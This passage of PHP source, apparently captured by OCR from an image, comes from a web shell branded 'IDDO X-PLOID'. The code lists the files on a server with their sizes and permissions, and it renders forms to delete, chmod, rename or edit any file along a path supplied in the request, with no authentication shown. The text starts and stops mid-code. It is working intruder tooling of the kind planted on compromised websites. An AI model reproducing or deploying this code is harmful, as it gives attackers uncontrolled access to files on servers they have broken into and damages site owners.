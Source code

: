 echo '</center></td>
<td><center><form method="POST" action="?option&path='.$path.'">
<select name="opt">
<option value="">Select</option>
<option value="delete">Delete</option>
<option value="chmod">Chmod</option>
<option value="rename">Rename</option>
</select>
<input type="hidden" name="type" value="dir">
<input type="hidden" name="name" value="'.$dir.'">
<input type="hidden" name="path" value="'.$path.'/'.$dir.'">
<input type="submit" value=">">
</form></center></td>
</tr>';
}
echo '<tr class="first"><td></td><td></td><td></td><td></td></tr>';
foreach($scandir as $file){
if(!is_file($path.'/'.$file)) continue;
$size = filesize($path.'/'.$file)/1024;
$size = round($size,3);
if($size >= 1024){
$size = round($size/1024,2).' MB';
}else{
$size = $size.' KB';
}

echo '<tr>
<td><a href="?filesrc='.$path.'/'.$file.'&path='.$path.'">'.$file.'</a></td>
<td><center>'.$size.'</center></td>
<td><center>';
if(is_writable($path.'/'.$file)) echo '<font color="green">';
elseif(!is_readable($path.'/'.$file)) echo '<font color="red">';
echo perms($path.'/'.$file);
if(is_writable($path.'/'.$file) || !is_readable($path.'/'.$file)) echo '</font>';
echo '</center></td>
<td><center><form method="POST" action="?option&path='.$path.'">
<select name="opt">
<option value="">Select</option>
<option value="delete">Delete</option>
<option value="chmod">Chmod</option>
<option value="rename">Rename</option>
<option value="edit">Edit</option>
</select>
<input type="hidden" name="type" value="file">
<input type="hidden" name="name" value="'.$file.'">
<input type="hidden" name="path" value="'.$path.'/'.$file.'">
<input type="submit" value=">">
</form></center></td>
</tr>';
}
echo '</table>
</div>';
}
echo '<center><br/>IDDO X-PLOID - Copyright 2k17</center>
</body>
</html>';
function perms($file){
$perms = fileperms($file);
